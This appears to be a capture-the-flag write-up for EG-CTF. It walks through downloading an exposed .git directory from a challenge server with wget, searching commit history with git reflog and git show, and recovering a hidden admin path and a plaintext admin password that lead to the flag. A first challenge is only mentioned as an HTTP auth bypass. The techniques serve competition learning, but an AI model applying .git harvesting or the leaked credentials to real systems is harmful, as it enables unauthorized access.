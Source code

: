 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory <br/>
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/ <br/>
root@cloudshell: ls<br/>
172.105.76.128  <br/>
root@cloudshell: cd 172.105.76.128/<br/>
root@cloudshell:/172.105.76.128 ls -a<br/>
.  ..  .git<br/>
root@cloudshell:/172.105.76.128 cd .git/<br/>
root@cloudshell:/172.105.76.128/.git ls <br/>
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects<br/>
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs <br/> refs<br/>
//////////////////////////////////////////<br/>
// let's check the commits<br/>
//////////////////////////////////////////<br/>
root@cloudshell:/172.105.76.128/.git git reflog<br/>
2e3e1a8 HEAD@{0}: commit: Refining<br/>
89329fa HEAD@{1}: commit: NewFeature<br/>
dfecece HEAD@{2}: commit: Addinfo<br/>
b032cf8 HEAD@{3}: commit: Disable<br/>
5b9e491 HEAD@{4}: commit: DelCr<br/>
457168f HEAD@{5}: commit: AddUsetting<br/>
b55d897 HEAD@{6}: commit: editconf<br/>
70ae358 HEAD@{7}: commit (initial): initials<br/>
// i have check this commits one by one and i found <br/>
root@cloudshell:/172.105.76.128/.gitgit show 2e3e1a8<br/>
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254<br/>
Author: Ben ALaa <a.alaa@egcert.eg><br/>
Date:   Thu Nov 14 23:18:26 2019 +0100 <br/>

    Refining 
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 3d7f801..706d93b 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -420,15 +420,6 @@ CONFIG = array(<br/>
 'overwriteprotocol' => '',<br/>
<br/>
 /** <br/>
- * Override webroot<br/>
- * ownCloud attempts to detect the webroot for generating URLs automatically.<br/>
- * For example, if `www.example.com/owncloud` is the URL pointing to the<br/>
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it<br/>
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs. <br/>
- <br/>
-'overwritewebroot' => '',<br/>
-<br/>
-/<br/>
   Override condition<br/>
   This option allows you to define a manual override condition as a regular<br/>
   expression for the remote IP address. The keys `overwritewebroot`,<br/>
   //////////////////////////////////////////////////<br/>
// this show us the path of admin log in is /S3cR3tPaTh/<br/>
/////////////////////////////////////////////////////////<br/>
root@cloudshell:/172.105.76.128/.gitgit show 5b9e491<br/>
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b<br/>
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100<br/>
<br/>
    DelCr<br/>
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 46ed4f3..72e9842 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -194,7 +194,7 @@ CONFIG = array(<br/>
 'knowledgebaseenabled' => true,<br/>
<br/>
 /** <br/>
- * Enables or disables avatars or user profile photos<br/>
+ /* Enables or disables avatars or user profile photos<br/>
  * `true` enables avatars, or user profile photos, `false` disables them.<br/>
  * These appear on the User page, on user's Personal pages and are used by some apps<br/>
  * (contacts, mail, etc).<br/>
@@ -469,15 +469,7 @@ CONFIG = array(<br/>
<br/>
<br/>
<br/>
-<br/>
- Admin Credentials<br/>
-<br/>
-'Admin_Login' => 'Administrator' <br/><br/>
-'Admin_Password' => 'FN3ym@bZNaF&'<br/><br/>

///////////////////////////////////////////////////////////////// <br/>
admin = Administrator <br/>
password = FN3ym@bZNaF& <br/>
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0} <br/>
sorry if something it's not clear <br/>
////////////////////////////////////////////////////////////////// <br/>
